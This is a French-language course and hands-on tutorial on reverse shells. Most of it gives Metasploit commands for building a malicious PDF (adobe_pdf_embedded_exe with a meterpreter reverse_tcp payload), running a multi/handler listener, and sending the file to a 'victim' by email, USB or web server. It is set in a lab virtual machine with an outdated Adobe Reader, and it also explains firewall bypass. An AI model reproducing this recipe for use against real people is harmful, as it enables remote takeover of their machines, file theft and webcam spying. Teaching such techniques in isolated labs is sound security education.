



1. Reverse Shell
1.1. Cours
Avant de parler de reverse shell, il faudrait tout d’abord rappeler ce qu’est un shell. Un shell est une couche logicielle qui fournit l’interface utilisateur du système d’exploitation. ( wikipedia ) Différents shells existent : CMD, sh, bash, Powershell,…
Une autre notion avant de comprendre ce qu’est un reverse shell est qu’est-ce qu’un port ? Un port informatique du point de vue logiciel est un système permettant aux ordinateurs de recevoir ou d’émettre des informations. ( wikipedia )
1.1.1. Qu’est ce qu’un reverse shell ?
Pour dire ça simplement, c’est lorsqu’un ordinateur se connecte à un autre ordinateur mais que l’ordinateur initiateur transmet son shell à la destination. Ainsi, ce type d’attaque donne à l’attaquant un shell interactif sur une machine.
1.1.3. Et dans la pratique… Comment on fait ? (Metasploit)
Pour commencer, un attaquant va créer ou télécharger un payload qu’il pourra envoyer à sa victime. Un payload est un fichier qui va exécuter du code malveillant, et dans notre cas ouvrir une connexion entre l’attaquant et la victime.
Le module exploit/windows/fileformat/adobe_pdf_embedded_exe dans Metasploit nous permet de créer un payload pdf contenant un fichier exe dans son en-tête qui sera exécuté à l’ouverture du pdf. Il faudra configurer LHOST et LPORT comme l’adresse et le port de l’attaquant ou d’un serveur auquel les deux ordinateurs peuvent se connecter.
Une fois le payload préparé, il suffit de l’envoyer à la victime. Toutes les techniques sont possibles (email, lien, clé usb,…)
Désormais, il faut mettre en place le “listener” pour écouter et attendre une connexion sur le port spécifié dans LPORT lors de la création du payload.
Le module exploit/multi/handler fonctionne très bien. Il faut ensuite préparer l’écoute en faisant : set payload windows/meterpreter/reverse_tcp et en renseignant le LHOST et LPORT du payload pour dire à metasploit que nous avons un payload utilisant le protocole tcp et que nous allons ouvrir un meterpreter s’il y a une connexion d’une machine victime. Le meterpreter est un shell interactif qui permet à l’attaquant de faire un grand nombre de choses, upload/download de fichiers, stream de webcam, voir l’écran, créer des fichiers, ouvrir des pages web,…
Il faudra ensuite taper la commande exploit pour que la machine se mette sur écoute.
A partir de là, il suffit d’attendre que la victime ouvre le fichier malveillant qu’elle a téléchargé et l’attaquant aura un accès total à la machine.
1.2. Tutoriel : Prendre le contrôle d’une machine windows avec un fichier pdf
Avant de commencer ce tutoriel, je vous conseillerai d’aller voir le cours sur le reverse shell pour bien comprendre les différentes étapes. Si vous avez lu le cours, je vous conseille maintenant d’aller commencer à télécharger la machine virtuelle que vous pourrez importer dans virtualbox en cliquant sur : télécharger la Machine Virtuelle{:target= »_blank »}
1.2.1. Étape 1 : Créer et récupérer le pdf malicieux
Métasploit propose un grand nombre de payloads divers et variés. En tapant les bonnes recherches, il sera possible de trouver facilement celui qui nous intéresse.
Tapez la commande msfconsole pour démarrer métasploit.
Ensuite il faut chercher le payload.
Tapez search windows fileformat pdf. Vous aurez un résultat comme ci dessous :

Plusieurs modules répondent à notre recherche, mais peu d’entre eux sont classés comme excellents. Nous allons donc prendre le numéro 6.
Pour l’utiliser tapez use exploit/windows/fileformat/adobe_pdf_embedded_exe
Nous allons vouloir configurer un payload qui nous fera une connexion vers notre machine et qui ouvrira une session meterpreter.
Ainsi, tapons la commande : set payload windows/meterpreter/reverse_tcp
Pour voir les options actuelles du payload, tapez : show options

Vous devriez avoir quelque chose comme cela, peut être qu’une adresse par défaut ou qu’un port par défaut à été renseigné pour LHOST et LPORT.
Nous allons configurer ce payload. Il faut commencer par renseigner les valeurs de LHOST et LPORT.
Pour cela tapez set LHOST x.x.x.x en remplaçant les x par les valeurs de l’adresse ip de votre machine. Puis tapez set LPORT xxx en remplaçant xxx par le port de votre choix (par exemple, set LPORT 4444).
vous pouvez refaire un show options, vous devriez voir que les options ont été prises en compte.
Vous pouvez ensuite modifier le nom de votre fichier pdf en tapant set FILENAME xxxx.pdf en remplaçant xxxx par le nom que vous voulez donner.
Quand tout est prêt, tapez exploit. Vous verrez ensuite que votre fichier a été créé et la console vous indique à la dernière ligne le chemin d’accès à ce fichier.
1.2.2. ÉTAPE 2 : Activer le listener
Pour activer le listener, il vous faudra taper la commande use exploit/multi/handler
puis set payload windows/meterpreter/reverse_tcp
De même que précédemment, il vous faut renseigner LHOST et LPORT. Quand cela est fait, tapez exploit.
1.2.3. ÉTAPE 3 : Envoyer le fichier
Vous pouvez envoyer le fichier de toutes les manières possibles : par usb, par mail, en le mettant en ligne en ayant démarré un serveur apache,… et tout autre technique imaginable.
1.2.4. ÉTAPE 4 : Ouvrir le fichier
Le fichier est bien téléchargé sur la machine virtuelle. Avant de l’ouvrir, vérifiez bien que le listener est lancé. Vous devez voir cela :
avec votre adresse et votre port que vous avez renseigné.
Si tout est prêt, ouvrez le pdf avec adobe reader 8 !

Enregistrez template.pdf s’il vous le demande.
Cliquez sur open.
Retournez voir votre listener… Une fenêtre meterpreter s’est lancée, une connexion a été faite entre votre machine et celle de la victime. Tapez help pour voir tout ce qu’il vous est possible de faire. Amusez-vous bien ! Félicitations !
1.1.2. Comment cela fonctionne-t-il ?
Vous n’êtes pas sans savoir que votre routeur vous protège d’un grand nombre de menaces qui pourraient venir de l’extérieur grâce à un firewall. En effet ce dernier n’accepte que des requêtes vers le port 80 et 443 de l’extérieur pour le http et le https. Toutes les autres sont bloquées. Cependant, toutes les requêtes et connexions sortantes sont autorisées sur n’importe quel port car l’ordinateur du réseau est considéré comme une machine de confiance. Cela permet à un attaquant de passer outre le firewall mit en place par le routeur.
L’attaque commence avec une machine qui écoute sur un port (il s’agit de la machine de l’attaquant). Ensuite, la machine victime exécutera une commande qui la connectera à la machine attaquante et lui transmettra sa session.
Peut-être vous demanderez vous pourquoi la machine victime voudrait à un moment donné exécuter cette commande… Cela peut être utile dans le domaine professionnel ou personnel si vous avez un ordinateur distant que vous voulez utiliser pour telle ou telle raison depuis un autre ordinateur, cela est possible. Dans le cas d’une attaque la commande pourra s’exécuter suite au téléchargement d’un fichier exécutable ou d’un fichier pdf ouvert avec un visionneur de pdf qui n’a pas été mis à jour.